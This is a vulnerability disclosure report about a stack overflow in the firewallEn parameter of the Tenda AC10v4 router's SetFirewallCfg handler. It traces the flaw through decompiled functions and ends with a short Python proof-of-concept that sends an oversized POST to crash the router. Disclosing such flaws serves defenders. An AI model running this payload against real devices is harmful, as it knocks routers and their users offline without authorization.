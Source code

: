 # Notification of Stack Overflow Vulnerability in Tenda AC10v4 Router (Version V16.03.10.13) by Shenzhen Tenda Technology 

Router Firmware Download: [https://www.tenda.com.cn/material/show/103506](https://www.tenda.com.cn/material/show/103506)

Vulnerability URL：http://192.168.100.135/goform/SetFirewallCfg

The payload is at the bottom of the article

The vulnerability occurs at the function `formSetFireWallCfg`.

![image](https://github.com/xubeining/Cve_report/blob/main/photoforstackoverflow1.png)
![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow2.png)

The program retrieves the user input parameter "firewallEn" but does not perform size checks.  
When the parameter input is too large, it causes a stack overflow, leading to a crash or potential exploitation.  
The issue is located in the `formSetFireWallCfg` function, which is referenced by `formDefineTenDa` at line 28.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow3.png)

The issue can be further cross-referenced to `FUN_0043b3d8`, with particular attention to lines 50 and 53.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow4.png)

The vulnerability occurs on the page path: `goform/SetFirewallCfg`.

## Now, let's proceed with the reproduction.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow5.png)

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow6.png)

Now, run the script.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow7.png)
![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow8.png)

The router crashes, and the website becomes inaccessible.

## Payload
```python
import requests

url = "http://192.168.100.135/goform/SetFirewallCfg"
payload = {
    'firewallEn': b'a' * 100000
}
res = requests.post(url=url, data=payload)
